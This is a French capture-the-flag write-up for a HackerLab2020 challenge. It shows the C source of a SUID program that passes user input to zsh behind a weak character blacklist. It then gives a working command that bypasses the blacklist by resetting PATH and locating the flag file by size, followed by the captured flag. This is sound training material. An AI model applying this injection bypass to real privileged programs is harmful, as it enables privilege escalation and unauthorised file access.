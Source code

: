 # HackerLab2020 - Challenge 3

## Challenge
Après connexion sur le serveur ssh, nous avons un fichier SUID _chal0x01_ dont le fichier source _chal0x01.c_ est mis à notre disposition.

```c
#define _XOPEN_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int covider(char* command){
	int out=0;
	out += strstr(command, "f_l_a_g_")!=0;
	out += strstr(command, "_")!=0;
	out += strstr(command, "*")!=0;
	return out;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/jinfectetonpathalacovid");
	if(covider(argv[2])) return 0;
	int ret;
	ret = execl ("/usr/bin/zsh", "zsh","-c", argv[2],(char *)0);

	return 0;
}
```
# Solution
Il faut comprendre d'abord qu'il y a un control sur le deuxième argument du programme. A cet effet, la réussite de cette épreuve sera effective lorsque nous arrivons à afficher le contenu du fichier *f_l_a_g_* sans utiliser les caractères ou expressions blacklistés.

Dans un premier temps, nous avons vérifié la taille du fichier *f_l_a_g_* en question puis effectué un filtre dessus tout en bypassant les caractères blacklistés et maintenir la variable _$PATH_ intacte.

```bash
chal0x01@vps-dc68098a:~$ ls -lh
total 28K
-rwsr-sr-x 1 chal0x01_pwn chal0x01_pwn 17K août  18 12:06 chal0x01
-r--r----- 1 chal0x01_pwn chal0x01     470 août  18 12:06 chal0x01.c
-r-------- 1 chal0x01_pwn chal0x01     253 août  18 11:06 f_l_a_g_
chal0x01@vps-dc68098a:~$ ./chal0x01 inspiv 'PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games&&cat `find /home/chal0x01 -type f -size 253c`'
Félicitations. Si tu as pu lire ce fichier, c'est que tu remplis les conditions necessaires pour participer à la phase finale du HackerLab2020.
Il s'agit pour toi maintenant de t'entrainer plus que jamais!
Voici le flag final!
CTF_Kephren_1s_Th3_g0@t
chal0x01@vps-dc68098a:~$
```

```
FLAG: CTF_Kephren_1s_Th3_g0@t
```
